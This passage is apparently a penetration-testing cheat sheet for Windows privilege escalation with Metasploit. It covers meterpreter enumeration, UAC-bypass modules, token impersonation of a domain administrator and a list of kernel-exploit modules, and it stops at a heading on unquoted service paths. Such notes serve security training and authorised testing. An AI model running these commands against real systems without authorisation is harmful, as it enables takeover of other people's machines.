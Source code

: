 ```
## Windows Privilege Escalation

### System Enumeration

```
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getprivs
meterpreter > run post/windows/gather/enum_patches
meterpreter > run post/windows/gather/enum_applications
```

### UAC Bypass

User Account Control (UAC) is a Windows security feature that prevents unauthorized changes to the operating system. Bypassing UAC allows you to execute commands with elevated privileges.

```
meterpreter > run post/windows/gather/win_privs
meterpreter > background

msf6 > use exploit/windows/local/bypassuac
msf6 exploit(windows/local/bypassuac) > set SESSION <session-id>
msf6 exploit(windows/local/bypassuac) > set TECHNIQUE [technique_number]
msf6 exploit(windows/local/bypassuac) > exploit
```

Alternative UAC bypass modules:

- `exploit/windows/local/bypassuac_fodhelper`
- `exploit/windows/local/bypassuac_eventvwr`
- `exploit/windows/local/bypassuac_sdclt`

### Token Impersonation

Windows access tokens represent user and group security contexts. Impersonating a token allows you to assume the privileges of another user.

```
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "DOMAIN\\Administrator"
```

If successful, verify with:

```
meterpreter > getuid
meterpreter > shell
```

### Kernel Exploits

Common Windows kernel exploit modules:

- `exploit/windows/local/ms16_032_secondary_logon_handle_privesc`
- `exploit/windows/local/cve_2019_1458_wizardopium`
- `exploit/windows/local/cve_2020_1054_drawiconex_lpe`
- `exploit/windows/local/cve_2021_36934_hivenightmare`
- `exploit/windows/local/cve_2021_40449_win32k`
- `exploit/windows/local/cve_2022_21999_printspooler_exploit`

### Unquoted Service Paths

Windows services with unquoted paths containing spaces can be exploited for privilege escalation.
```